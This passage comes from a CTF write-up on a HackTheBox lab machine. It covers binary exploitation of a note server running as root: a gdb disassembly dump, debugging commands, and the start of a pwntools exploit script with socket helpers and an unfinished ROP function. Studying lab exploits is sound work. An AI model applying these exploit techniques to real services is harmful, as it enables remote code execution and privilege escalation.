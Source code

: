 note-server was running as root

## Binary Exploitation


> note: had to get help with this, not good with binary exploitation - thank you to ippsec for his amazing walkthrough videos; also the official write-up for the final working script. For some reason I wasnt able to get gdb's breakpoints to work. It kept giving me an error when running after setting a break point on the write@plt address


```text
0x0000000000000d27 <+541>:   callq  0x900 <write@plt>
   0x0000000000000d2c <+546>:   nop
   0x0000000000000d2d <+547>:   mov    -0x8(%rbp),%rax
   0x0000000000000d31 <+551>:   xor    %fs:0x28,%rax
   0x0000000000000d3a <+560>:   je     0xd48 <handle_client+574>
   0x0000000000000d3c <+562>:   jmp    0xd43 <handle_client+569>
   0x0000000000000d3e <+564>:   jmpq   0xb33 <handle_client+41>
   0x0000000000000d43 <+569>:   callq  0x910 <__stack_chk_fail@plt>
   0x0000000000000d48 <+574>:   leaveq 
   0x0000000000000d49 <+575>:   retq   
End of assembler dump.
(gdb) b *0x0000000000000d27
Breakpoint 2 at 0xd27
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/zweilos/htb/intense/noteserver 
Warning:
Cannot insert breakpoint 2.
Cannot access memory at address 0xd27
```

kept getting errors when trying to set break points in gdb. I got frustrated with this and moved on to other machines until the box retired and I was able to watch Ippsec's video, and in the end used the exploit from the official write-up.

`gdb ./note_server -ex 'set follow-fork-mode child' -ex 'break 82' -ex 'run'`

Got address of /xf54

I did learn something very useful for the future - compiling with `-ggdb` will compile with source code intact - very useful for analysis and debugging

Wrote a few different Python scripts trying to exploit this, but in the end I needed to look at the official writeup to find out what I had been doing wrong.

```python
from pwn import *
context.binary = './note_server.remote'
e = context.binary
libc = ELF('./libc_remote.so', checksec=False)
p = remote("127.0.0.1", 5001)

def write(size, data):
    p.send("\x01")
    p.send(p8(size))
    p.send(data)

def copy(offset, size):
    p.send("\x02")
    p.send(p16(offset))
    p.send(p8(size))

def read():
    p.send("\x03")

def doRop(rop):
```